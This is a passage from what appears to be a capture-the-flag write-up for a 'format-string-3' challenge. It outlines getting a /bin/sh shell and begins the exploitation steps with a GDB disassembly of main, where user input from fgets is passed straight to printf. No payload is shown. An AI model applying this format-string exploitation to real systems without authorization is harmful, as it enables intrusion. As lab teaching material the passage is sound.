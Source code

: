 5. Execute the payload to call `/bin/sh` and obtain shell access. 

## Exploitation steps

1. Determine the stack position of the user input.

- Run the program in GDB.

```terminal
$ gdb format-string-3
```

- Disassemble the `main` function to find a suitable breakpoint.

```terminal
gef➤  disas main
Dump of assembler code for function main:
   0x0000000000401243 <+0>:     endbr64
   0x0000000000401247 <+4>:     push   rbp
   0x0000000000401248 <+5>:     mov    rbp,rsp
   0x000000000040124b <+8>:     sub    rsp,0x510
   0x0000000000401252 <+15>:    mov    rax,QWORD PTR fs:0x28
   0x000000000040125b <+24>:    mov    QWORD PTR [rbp-0x8],rax
   0x000000000040125f <+28>:    xor    eax,eax
   0x0000000000401261 <+30>:    lea    rdx,[rbp-0x510]
   0x0000000000401268 <+37>:    mov    eax,0x0
   0x000000000040126d <+42>:    mov    ecx,0x20
   0x0000000000401272 <+47>:    mov    rdi,rdx
   0x0000000000401275 <+50>:    rep stos QWORD PTR es:[rdi],rax
   0x0000000000401278 <+53>:    mov    QWORD PTR [rbp-0x410],0x0
   0x0000000000401283 <+64>:    mov    QWORD PTR [rbp-0x408],0x0
   0x000000000040128e <+75>:    lea    rdx,[rbp-0x400]
   0x0000000000401295 <+82>:    mov    eax,0x0
   0x000000000040129a <+87>:    mov    ecx,0x7e
   0x000000000040129f <+92>:    mov    rdi,rdx
   0x00000000004012a2 <+95>:    rep stos QWORD PTR es:[rdi],rax
   0x00000000004012a5 <+98>:    mov    eax,0x0
   0x00000000004012aa <+103>:   call   0x4011a6 <setup>
   0x00000000004012af <+108>:   mov    eax,0x0
   0x00000000004012b4 <+113>:   call   0x40120b <hello>
   0x00000000004012b9 <+118>:   mov    rdx,QWORD PTR [rip+0x2db0]        # 0x404070 <stdin@GLIBC_2.2.5>
   0x00000000004012c0 <+125>:   lea    rax,[rbp-0x410]
   0x00000000004012c7 <+132>:   mov    esi,0x400
   0x00000000004012cc <+137>:   mov    rdi,rax
   0x00000000004012cf <+140>:   call   0x4010b0 <fgets@plt>
   0x00000000004012d4 <+145>:   lea    rax,[rbp-0x410]
   0x00000000004012db <+152>:   mov    rdi,rax
   0x00000000004012de <+155>:   mov    eax,0x0
   0x00000000004012e3 <+160>:   call   0x4010a0 <printf@plt>
   0x00000000004012e8 <+165>:   mov    rax,QWORD PTR [rip+0x2d59]        # 0x404048 <normal_string>
   0x00000000004012ef <+172>:   mov    rdi,rax
   0x00000000004012f2 <+175>:   call   0x401080 <puts@plt>
   0x00000000004012f7 <+180>:   mov    eax,0x0
   0x00000000004012fc <+185>:   mov    rdx,QWORD PTR [rbp-0x8]
   0x0000000000401300 <+189>:   sub    rdx,QWORD PTR fs:0x28
   0x0000000000401309 <+198>:   je     0x401310 <main+205>
   0x000000000040130b <+200>:   call   0x401090 <__stack_chk_fail@plt>
   0x0000000000401310 <+205>:   leave
   0x0000000000401311 <+206>:   ret
End of assembler dump.
```
